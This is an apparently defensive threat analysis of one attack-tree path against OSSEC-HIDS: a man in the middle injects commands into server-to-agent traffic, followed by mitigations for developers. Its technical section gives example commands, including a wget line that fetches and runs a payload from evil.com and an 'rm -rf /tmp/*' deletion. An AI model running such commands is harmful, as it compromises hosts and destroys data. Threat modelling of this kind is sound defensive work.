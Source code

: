 ## Deep Analysis of Attack Tree Path: Inject Malicious Commands to Agent (OSSEC-HIDS)

This analysis focuses on the attack tree path "2.2.1.1. Inject Malicious Commands to Agent (if supported by configuration) [HIGH_RISK_PATH]" within the context of an OSSEC-HIDS deployment. We will break down the attack vector, its implications, and provide recommendations for the development team to mitigate this critical risk.

**Understanding the Attack Path:**

This specific attack path hinges on a potentially insecure configuration setting within OSSEC that allows the server to send commands directly to the agent for execution. While this functionality can be useful for legitimate administrative tasks, it presents a significant security vulnerability if not properly secured.

The core of the attack lies in a **Man-in-the-Middle (MITM)** scenario. An attacker positions themselves between the OSSEC server and the agent, intercepting and manipulating the communication stream. If the configuration permits command execution, the attacker can inject their own malicious commands into this stream, which the agent will then interpret and execute as if they originated from the legitimate server.

**Detailed Breakdown:**

* **Attack Stage:**  Exploitation (after successful MITM attack).
* **Actor:**  External attacker or compromised internal system.
* **Target:**  OSSEC Agent.
* **Prerequisites:**
    * **Successful MITM Attack:** The attacker must have successfully intercepted the communication between the OSSEC server and the agent. This could involve techniques like ARP spoofing, DNS spoofing, or compromising network infrastructure.
    * **Vulnerable OSSEC Configuration:** The OSSEC server configuration must allow sending commands to the agents. This typically involves specific configuration options within the `ossec.conf` file on the server. Examples of such configurations might include:
        * Enabling remote command execution without sufficient authentication or authorization.
        * Allowing specific commands to be executed without proper input validation.
    * **Understanding of OSSEC Communication Protocol:** The attacker needs to understand the structure of the communication between the server and the agent to craft valid command injection payloads.

**Technical Deep Dive:**

1. **MITM Attack:** The attacker intercepts the encrypted (or unencrypted, if TLS is not properly configured) communication between the OSSEC server and the agent.
2. **Communication Analysis:** The attacker analyzes the intercepted traffic to understand the command structure and identify where to inject malicious commands.
3. **Command Injection:** The attacker crafts a malicious command payload that will be interpreted and executed by the agent. This could involve:
    * **Direct Shell Commands:**  Commands like `rm -rf /tmp/*`, `wget http://evil.com/payload -O /tmp/payload && chmod +x /tmp/payload && /tmp/payload`, or adding a new user with administrative privileges.
    * **OSSEC Internal Commands:**  Potentially abusing legitimate OSSEC commands for malicious purposes, if the configuration allows.
4. **Payload Injection:** The attacker injects the crafted malicious command into the communication stream, replacing or appending to legitimate server commands.
5. **Agent Execution:** The OSSEC agent receives the modified communication, interprets the injected command as legitimate, and executes it on the host system with the privileges of the OSSEC agent process (typically root or a highly privileged user).

**Critical Node: Execute Arbitrary Commands on Agent Host [CRITICAL_NODE]**

This is the pivotal point of the attack. Successful command injection allows the attacker to execute any command they desire on the target system. This has catastrophic consequences, effectively granting them complete control over the compromised host.

**Impact Assessment:**

The impact of successfully executing arbitrary commands on the agent host is severe and includes:

* **Complete System Compromise:** The attacker gains the ability to control the entire system, including accessing sensitive data, installing backdoors, and further compromising the network.
* **Data Breach:**  Attackers can steal confidential data stored on the compromised host.
* **Malware Installation:**  Installation of ransomware, spyware, or other malicious software.
* **Denial of Service (DoS):**  Attackers can disrupt services running on the host or use it to launch attacks against other systems.
* **Lateral Movement:**  The compromised agent can be used as a stepping stone to attack other systems within the network.
* **Reputational Damage:**  A successful attack can significantly damage the organization's reputation and customer trust.
* **Compliance Violations:**  Data breaches resulting from this attack can lead to significant fines and penalties for non-compliance with regulations like GDPR, HIPAA, etc.

**Mitigation Strategies for the Development Team:**

The development team plays a crucial role in ensuring that OSSEC is deployed and configured securely. Here are key mitigation strategies:

* **Disable or Secure Remote Command Execution:**
    * **Default is Secure:** The default configuration should **not** allow remote command execution by the server.
    * **Strict Access Control:** If remote command execution is absolutely necessary, implement the strictest possible access control mechanisms. This could involve:
        * **Whitelisting Specific Servers:**  Only allow commands from explicitly trusted OSSEC servers.
        * **Strong Authentication:** Implement robust authentication mechanisms for command execution, going beyond simple IP-based trust. Consider using mutual TLS authentication.
        * **Command Whitelisting:**  Restrict the types of commands that can be executed remotely. Only allow specific, necessary commands.
    * **Input Validation and Sanitization:**  Thoroughly validate and sanitize any input received from the server before executing it as a command. This is crucial to prevent command injection vulnerabilities.
* **Enforce Strong TLS Encryption:**
    * **Mandatory TLS:** Ensure that TLS encryption is **always** enabled and enforced for communication between the server and agents.
    * **Certificate Verification:** Implement strict certificate verification on both the server and agent sides to prevent MITM attacks. Verify the authenticity of the server certificate on the agent and vice-versa.
    * **Strong Cipher Suites:** Use strong and up-to-date cipher suites for TLS encryption.
* **Regular Security Audits and Penetration Testing:**
    * **Configuration Reviews:** Regularly review the OSSEC server and agent configurations to identify any potential security weaknesses, including insecure remote command execution settings.
    * **Penetration Testing:** Conduct regular penetration testing to simulate real-world attacks and identify vulnerabilities in the OSSEC deployment. Specifically test for MITM vulnerabilities and command injection possibilities.
* **Principle of Least Privilege:**
    * **Agent User Privileges:** Run the OSSEC agent with the minimum necessary privileges. Avoid running it as root if possible, or carefully consider the implications.
    * **Command Execution Privileges:** If remote command execution is enabled, ensure that the commands are executed with the least privileged user necessary.
* **Network Segmentation:**
    * **Isolate OSSEC Infrastructure:**  Segment the network to isolate the OSSEC server and agents from other critical systems. This can limit the impact of a successful compromise.
* **Intrusion Detection and Prevention Systems (IDPS):**
    * **Monitor Network Traffic:** Implement network-based IDPS to detect suspicious network traffic patterns indicative of MITM attacks.
    * **Host-Based Monitoring:**  Utilize OSSEC's own capabilities to monitor for suspicious command execution on the agents. Configure rules to detect unusual processes or command line arguments.
* **Secure Development Practices:**
    * **Code Reviews:**  Conduct thorough code reviews of any custom OSSEC integrations or modifications to ensure they do not introduce vulnerabilities.
    * **Security Testing:** Integrate security testing into the development lifecycle to identify and address vulnerabilities early on.
* **Security Awareness Training:**
    * **Educate Administrators:**  Educate system administrators about the risks associated with insecure OSSEC configurations and the importance of following security best practices.

**Recommendations for the Development Team:**

1. **Prioritize Review of Remote Command Execution Configuration:** Immediately review the OSSEC server configuration to identify if remote command execution is enabled and how it is secured.
2. **Default to Disabled:** Strongly consider disabling remote command execution by default in future deployments or updates.
3. **Implement Robust Authentication and Authorization:** If remote command execution is necessary, implement strong authentication mechanisms beyond simple IP-based trust. Explore options like mutual TLS authentication.
4. **Focus on Input Validation:**  Implement rigorous input validation and sanitization for any commands received from the server before execution.
5. **Enhance Documentation:**  Clearly document the risks associated with enabling remote command execution and provide detailed guidance on how to configure it securely.
6. **Develop Automated Configuration Checks:** Create scripts or tools to automatically check for insecure OSSEC configurations, including those related to remote command execution.
7. **Include Specific Tests in Security Testing:** Ensure that penetration testing and security audits specifically target the possibility of command injection through manipulated server-agent communication.

**Conclusion:**

The attack path "Inject Malicious Commands to Agent" represents a significant and high-risk vulnerability in OSSEC deployments where insecure configurations allow remote command execution. By understanding the attack vector, its potential impact, and implementing the recommended mitigation strategies, the development team can significantly reduce the risk of this critical vulnerability being exploited. A proactive and security-focused approach to OSSEC configuration and deployment is essential to maintaining the integrity and security of the monitored systems. The focus should be on minimizing the attack surface and implementing robust security controls to prevent attackers from gaining control through command injection.
